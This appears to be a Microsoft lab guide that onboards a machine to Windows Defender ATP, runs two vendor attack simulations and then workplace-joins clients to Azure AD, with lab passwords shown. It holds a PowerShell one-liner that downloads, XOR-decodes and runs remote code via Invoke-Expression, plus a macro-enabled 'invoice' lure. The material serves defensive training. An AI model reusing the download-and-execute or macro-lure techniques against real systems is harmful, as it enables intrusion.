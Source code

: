 1. [] Browse to +++\\\Contosodc\sysvol\Contoso.Azure\scripts+++
1. [] Copy **WindowsDefenderATPLocalOnboardingScript** to the desktop.
1. [] Right-click on **WindowsDefenderATPLocalOnboardingScript** and click **Run as Administrator**.
1. [] Press **(Y)** to confirm onboarding.
1. [] Run **Attack Simulation #1 "Automated investigation (fileless attack)"** by following the instructions below:
	1. [] Open a PowerShell window and click on the code below to type it in the window (please wait until you see **($decryptedBytes))** before pressing **Enter**):
	
	+++[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))+++

1. [] Switch to @lab.VirtualMachine(AdminPC).SelectLink and run **Attack Simulation #2 "Automated investigation (backdoor)"** by following the instructions below:
	1. [] On the desktop, double-click on **RS4_WinATP-Intro-Invoice.docm** and enter +++WDATP!diy#+++ when prompted for a password.
	2. [] Once the file opens, in the **Security Warning** ribbon, click **Enable Content**.
	3. [] Click **OK** to confirm the attack.
	4. [] Press **Enter** to close the command prompt window.
===
# Workplace Join Clients

In this task, we will join 3 systems to the Azure AD tenant to provide SSO capabilities in Office.

1. [] On @lab.VirtualMachine(Client01).SelectLink, right-click on the start menu and click **Run**.
1. [] In the Run dialog, type +++ms-settings:workplace+++ and click **OK**.

	>!IMAGE[mssettings.png](\Media\mssettings.png)

1. [] In the Access Work or School settings menu, click on **+ Connect** and enter the credentials below to workplace join the client.

	+++AdamS@@lab.CloudCredential(134).TenantName+++

	+++pass@word1+++

	> [!NOTE] If the Next button does not light up on the username screen, press **Backspace** and the letter **m**.

1. [] Click **Done**.
1. [] Log into @lab.VirtualMachine(Client02).SelectLink by pressing @lab.CtrlAltDelete and using the credentials below:

	+++LabUser+++

	+++Pa$$w0rd+++
1. [] Right-click on the start menu and click **Run**.
1. [] In the Run dialog, type +++ms-settings:workplace+++ and click **OK**.
